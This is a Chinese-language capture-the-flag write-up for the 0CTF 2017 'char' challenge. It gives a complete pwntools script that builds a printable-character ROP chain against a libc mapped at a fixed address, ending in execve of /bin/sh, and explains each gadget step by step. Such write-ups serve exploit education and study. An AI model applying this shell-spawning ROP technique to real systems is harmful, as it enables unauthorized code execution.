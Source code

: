 # 解析char-130

> 参考了[http://blog.dragonsector.pl/2017/03/0ctf-2017-char-shellcoding-132.html](http://blog.dragonsector.pl/2017/03/0ctf-2017-char-shellcoding-132.html)

> 主要解法

```python
from pwn import *

rop = "A" * 32          # <1>

# set ecx = 0
rop += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret <2>
rop += p32(0x41414141)
rop += p32(0x41414141)
rop += p32(0x556d2a51) # pop ecx ; add al, 0xa ; ret <3>
rop += p32(0x41414141)
rop += p32(0x55655b4c) # sub ecx, edx ; add esp, 0x4c ; mov eax, ecx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret  <4>
rop += "A" * 0x4c
rop += p32(0x41414141) * 4

# set eax = 0x5563704d (ret)
rop += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret  <5>
rop += p32(0x5563704d) # edx
rop += p32(0x41414141) # edi
rop += p32(0x555b3454) # mov eax, edx ; ret  <6>

# ebx = '...///////bin/sh'
rop += p32(0x55643026) # push eax ; push esp ; xor eax, eax ; pop ebx ; ret  <7>
rop += p32(0x556a3457) # xor eax, eax ; ret <8>
rop += p32(0x556c6864) # inc eax ; ret 0 <9>
rop += p32(0x556d2860) * 2 # add ah, al ; ret  <10>
rop += p32(0x55634e43) # add bh, ah ; ret <11>

# set edx = 0
rop += p32(0x55617940) # mov edx, 0xffffffff ; cmovne eax, edx ; ret <12>
rop += p32(0x555e7a4b) # inc edx ; add al, 0x5f ; ret  <13>

# esi = execve+0x23 0x55616603
rop += p32(0x55623c37) # pop esi ; ret  <14>
rop += p32(0x55616621) 
rop += p32(0x556f4237) * (0x21-0x3) # dec esi ; ret <15>
rop += p32(0x556e552c) # push esi; ret <16>

rop += "/" * 500 + "/bin/sh"
print('%s'%(rop))
```

## 破解方法
> 运行 python solve.py 输出的字符串。
> 再运行 LD_PRELOAD=/home/char/libc.so ./char （这里一定要把libc.so放到/home/char目录下面，这个是必须的）等到出现 GO )提示之后，把输出的字符串COPY，就可以了。

> 这里的难度在于几点：
*  反汇编了，看到有一个函数检查输入值。这里的输入值必须在 '!' 到'}' 之间，不能超过这些值，（这里面，因为空格是不能被scanf接受）
* 这里的栈上是不能执行代码的，所以，最后要想办法得到数据

> 但其实也有可以进行处理的内容的方便，
* 这里在开始把libc.so这个方便映射到了 0x5555e000 这样的地址，而且还把这个所有的地址变成了 PROT_EXEC|PROT_WRITE 的属性
* 这里可以有最多2400个字符。
* 这里的地址是固定的。可以用硬代码

## 解释代码
* <1> 这里的前面 32个'A' 是在strcpy 之后，会有一些对esp的调整，特别是ebp原来保存的内容，把栈调整，这里是给第一个返回值 0x555f3555 
* <2> 这个返回值，如果你用gdb来进行跟踪，就是进入了 pop edx ; xor eax, eax ; pop edi ; ret 汇编代码，这里如何来的，你想一下，前面mmap 了libc.so 到了0x5555e000，再用objdump -D libc.so ，查看了0x95554这里的代码，当然，实际处理是把前面一个0x75没有，就是运行上面的代码了。 这个之后的edx=0x41414141 edi=0x41414141 eax=0x0
* <3> 这个时候得到的 0x174a51 = 0x556d2a51 - 0x555e0000 的地址是 pop ecx;add al,10; ret ;ecx=0x41414141 eax=0xa
* <4> 这个时候得到 0xf7b4c = 0x55655b4c - 0x555e0000的地址是 sub ecx, edx ; add esp, 0x4c ; mov eax, ecx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret ;运行 ecx=0x0 , eax=0x0,ebx=0x41414141, esi=0x41414141, edi=0x41414141,ebp=0x41414141 这里前面填充0x4c*'A'就是处理 add esp,0x4c
* <5> 这个时候得到的 0x95555 = 0x555f3555 - 0x555e0000 的地址是 pop edx ; xor eax, eax ; pop edi ; ret 就是运行上面的代码了。 这个之后的edx=0x5563704d edi=0x41414141 eax=0x0
* <6> 这个时候得到的 0x55454 = 0x555b3454 - 0x555e0000 的地址是 mov eax, edx ; ret 就是运行上面的代码了。 这个之后的 eax=0x5563704d
* <7> 这个时候得到的 0xe5026 = 0x55643026 - 0x555e0000 的地址是 push eax ; push esp ; xor eax, eax ; pop ebx ; ret 就是运行上面的代码了。 这个之后的 eip=0x5563704d, eax=0x0,ebx=esp（这里代码注释中说是指向///..//bin/sh，但实际上是指向这个之前，因为这里我们还没有运行完毕，所以，这里的后面进行修正）这个指向的0x5563704d这个值是可以允许的ret值，所有这些其实关键是指向ebx=...////bin/sh
* <8> 这个时候得到的 0x145457 = 0x556a3457 - 0x555e0000 的地址是 xor eax, eax ; ret 就是运行上面的代码了。 这个之后的 eax=0x0
* <9> 这个时候得到的 0x168864 = 0x556c6864 - 0x555e0000 的地址是 inc eax ; ret 0 就是运行上面的代码了。 这个之后的 eax=1
* <10> 这里两次运行了代码 0x174860 = 0x556d2860 - 0x555e0000 的地址是 add ah, al ; ret 这个运行完毕 eax=0x201
* <11> 这里两次运行了代码 0xd6e43 = 0x55634e43 - 0x555e0000 的地址是 add bh, ah ; ret 这个运行完毕 ebx向高端移动了0x200的地址，刚才我们说了，这个值原来是指向地址的，这里是真的指向了...///bin/sh了，
* <12> 这个目的是把edx=0，因为后面要用到的
* <14> <15> 是调整esi的值，指向execve这里最后的调用代码mov eax,0bh;call gs:0x10 这里主要是原因是要调整指针，因为要满足前面的字符串条件，所以，要对这里进行调整，最后调用 execve("///bin/sh",NULL,NULL)这个调用成功 ebx="///bin/sh" ,ecx=NULL edx=NULL

